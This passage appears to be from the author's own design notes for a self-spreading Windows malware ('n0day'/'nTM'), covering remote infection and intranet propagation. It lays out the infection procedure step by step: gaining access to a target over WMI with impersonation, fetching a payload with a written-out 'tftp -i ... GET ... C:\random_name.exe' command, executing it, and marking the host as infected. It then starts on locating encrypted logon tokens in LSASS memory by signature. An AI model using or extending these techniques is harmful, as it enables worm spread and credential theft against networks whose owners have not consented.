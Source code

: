     nTM running on Vista+ calls CreateProcessWithLogon(...), which is a more flexible
function but does the same thing.


    
[5d]    WMI & TFTP

    When the husk process recieves a GO from nTM to begin infection, it reads a registry 
key (specified in n0day.core.dll main.h) which contains an IP address of the remote machine.

The husk follows this procedure:

    =>  Initialize the ole32 library 
    
    =>  Create a server instance
    
    =>  Connect to the remote namespace (target machine)
            If there is a failure, then the husk does not have access to the remote machine.
            If there is a success, then the husk has gained complete access to the machine.
            
    =>  Sets security permissions on the services object, notifying LSA that the WMI instance
        has RPC_C_IMP_LEVEL_IMPERSONATE set.
        
    =>  Determine the remote OS.
            If it is Vista+, then the tftp client wont exist by default. Use WMI 
            to install the MSI through pkgmgr. Unfortunately, this process could 
            take a few          minutes.
    
    =>  The husk process starts the local TFTP daemon thread. 
            Synchronization between the TFTP daemon thread and the husk process is 
            maintained  through a CRITICAL_SECTION object.
            
            The daemon first opens a mutex, which is owned by the payload downloader 
            thread in LSASS. The payload downloader thread obtains this mutex once 
            an update occurs. When the TFTPd thread gets a handle to the mutex, 
            it attempts to open a shared memory region, which will link the LSASS
            nTM thread and the husk subprocess. The TFTPd will now have the latest
            payload.
    
    =>  The TFTP command is executed through WMI.
    
            tftp -i 1.1.1.1 GET abcde12345 C:\random_name.exe
            
            'abcde12345' is required for the download to start.
            
    =>  The payload will be executed through WMI and the husk will return SUCCESS.
            The target machine is marked as infected.


            
            
====[5] [Intranet Propagation]=====================================================================
    [5f] Token structures

    The Local Security Authority Subsystem Service (LSASS) was rigerously reversed
to determine how the process handles token creation, validation and removal.

    Each token that exists in LSA memory must be encrypted, so first we must find 
where the encrypted pool is. The DESX-CBC keys will change upon reboot. However, 
Windows leaves us with some excellent signatures that will find an encrypted token.
First, nTM looks for an ASCII string 'Primary' followed by NULL, in LSASS memory.
There are many instances, some will not be a token. 
